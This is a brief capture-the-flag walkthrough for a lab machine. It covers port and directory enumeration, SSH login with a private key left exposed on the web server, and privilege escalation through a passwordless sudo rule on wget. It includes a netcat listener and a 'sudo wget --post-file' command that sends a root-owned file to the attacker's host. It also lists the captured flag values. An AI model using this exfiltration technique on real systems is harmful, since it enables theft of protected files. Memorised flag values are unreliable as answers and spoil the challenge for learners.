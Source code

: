 <pre>
Machine IP: 10.10.61.228

Enum:
    Open ports:
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8| ssh-hostkey:
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works


Enum port 80: gobuster
    /sitemap
        /images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
.ssh -> ssh key
            Find username at : view-source:http://10.10.61.228/
                jessie

Login via ssh:
 $ ssh -i id_rsa jessie@10.10.61.228 -p 22
        At documents we will find user_flag.txt


Priv Esc:
    $ sudo -l

    And we will see 
$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
    Lets exploit!

    Attacking machine:
$ nc -lvnp 80 > root.txt
CTF machine:
    sudo /usr/bin/wget --post-file=/root/root_flag.txt 10.8.129.79

    And got root flag



User Flag: 057c67131c3d5e42dd5cd3075b198ff6
Root Flag: b1b968b37519ad1daa6408188649263d
</pre>
